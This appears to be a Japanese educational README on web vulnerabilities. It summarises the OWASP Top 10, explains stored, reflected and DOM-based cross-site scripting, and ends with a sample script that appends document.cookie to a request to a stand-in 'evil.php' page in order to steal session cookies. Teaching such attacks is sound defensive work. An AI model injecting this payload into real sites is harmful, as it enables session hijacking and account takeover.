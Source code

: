 # Webアプリケーションの脆弱性を理解する



<details><summary>Table of Contents</summary></details>


## 課題1 基本的な脆弱性を理解する

OWASP は2・3年ごとに開発者に向けて、Webアプリケーションで考慮すべきセキュリティリスクのTOP10をまとめている。

以下が最新の2017年時点でのセキュリティリスクの順位である。

![](https://www.synopsys.com/content/dam/synopsys/sig-assets/images/owasp-top-10.jpg.imgw.850.x.jpg)

> 「Open Web Application Security Project Top 10（OWASP Top 10）」
> https://www.synopsys.com/ja-jp/glossary/what-is-owasp-top-10.html

### クロスサイトスクリプティング

#### どういった脆弱性なのか

**クロスサイトスクリプティング（XSS）** 攻撃は、悪意のあるスクリプトを脆弱性のあるWebサイトに注入し、クライアントのブラウザ上でコードを実行する攻撃である。

悪意のあるスクリプトをブラウザ上で実行させることで、ブラウザが保持している対象のサイトでの **Cookie、セッショントークンなどの機密情報** を盗み出し、 **ユーザになりすます** などの攻撃が実行される可能性がある。

XSS は2017年時点で、Webアプリケーションの脆弱性の中で7番目に被害が多い攻撃である。

特徴は対象のWebアプリケーションが、ユーザからの入力を検証しなかったり、エンコードせずに保存してしまい、そのままHTMLとして出力してしまうような場合にどこでも発生する点である。

XSS には主に以下の3種類が存在している。

| 名称          | 概要                                                                                                                                                                                                                                                                                       | 
| ------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | 
| Stored XSS    | データベース、メッセージフォーラム、訪問者ログ、コメントフィールドなど、対象のサーバにユーザの入力が蓄積されている場合に発生する。<br><br>被害者は、サーバからのデータを検証することなくブラウザでレンダリングを実行すると、悪意のあるスクリプトが実行される。                             | 
| Reflected XSS | ユーザからの入力を受けて、その一部や全部を即座にエラーメッセージ、検索結果、そのほかのレスポンスに反映してしまう場合に発生する。                                                                                                                                                           | 
| DOM based XSS | 悪意のあるデータの流れがすべてブラウザ上で発生する、つまり悪意のあるデータがDOMにあり、そのDOMからほかのDOMへのデータが流れるような場合に発生する。<br><br>例えば悪意のあるデータ、DOMのHTML要素（document.location.href）から注入されたり、document.writeで書き込まれたりする場合である。 | 

---

#### どういった被害が発生しているのか

Webアプリケーションが、ユーザの入力を何も検証していない場合、攻撃者は認証されたユーザからCookie情報を盗むことが可能となる。

例えば以下のスクリプトを脆弱性のある掲示板に注入し、ユーザが対象のページのHTMLをリクエストしてしまうと、攻撃者のサイトに対してユーザが対象のサイトで保持しているCookie情報が盗まれてしまう。

```js
<script type="text/javascript">
var adr = '../evil.php?cakemonster=' + escape(document.cookie);
</script>
```

これでエスケープ処理されたCookieの中身が変数`cakemonster`に格納された状態で、`evil.php`へのリクエストが送信されてしまう。
